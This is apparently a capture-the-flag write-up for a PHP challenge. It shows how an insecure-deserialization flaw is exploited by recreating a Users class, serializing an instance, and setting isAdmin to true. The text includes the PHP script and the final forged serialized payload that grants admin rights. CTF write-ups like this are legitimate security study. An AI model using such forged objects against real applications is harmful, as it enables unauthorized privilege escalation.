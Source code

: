 Challenge Description :
### What do you know about OOP?

Looking at the landing page, a classic ref to the Source code.

![Alt text](image.png)

Checking the source Code we have a Class Users with the attributes:

![Alt text](image-1.png)

- string -> username\
- string -> password\
- boolean -> isAdmin\
- string -> id\

checking for the win condition we need to be admin, That's a simple deserlization attack , since we contrtol the deseralized data we can create an instance of the object in the runtime


Using the original code to create an instance of the class user with Useranme = 0x21AD and password = password cuz we have those two variables 

<?php

class Users
{
    private $username;
    private $password;
    private $isAdmin = false;
    private $id = '';

    public function __construct($username , $password)
    {
        $this -> username = $username;
        $this -> password = $password;
        $this -> isAdmin = false;
    }

    public function __isAdmin(){
        return $this -> isAdmin;
    }

    public function setUsername($username)
    {
        $this -> username = $username;
    }

    public function setPassword($password)
    {
        $this -> password = $password;
    }

    public function getUsername()
    {
        return $this -> username;
    }

    public function getPassword()
    {
        return $this -> password;
    }
}

$user = serialize(new Users("0x21AD" , "yuri"));

echo $user;

?>

and we get our payload  :
![Alt text](image-2.png)

#### But we have a prefix `Users` appended to all the attributes values.
All we need to do is to either manually modify the payload or use chatgpt (lazy way)!

Just modify the boolean value of isAdminto be 1 which means True and we get our final working payload:

`O:5:"Users":4:{s:8:"username";s:6:"0x21AD";s:8:"password";s:4:"yuri";s:7:"isAdmin";b:1;s:2:"id";s:0:"";}`


![Alt text](image-3.png)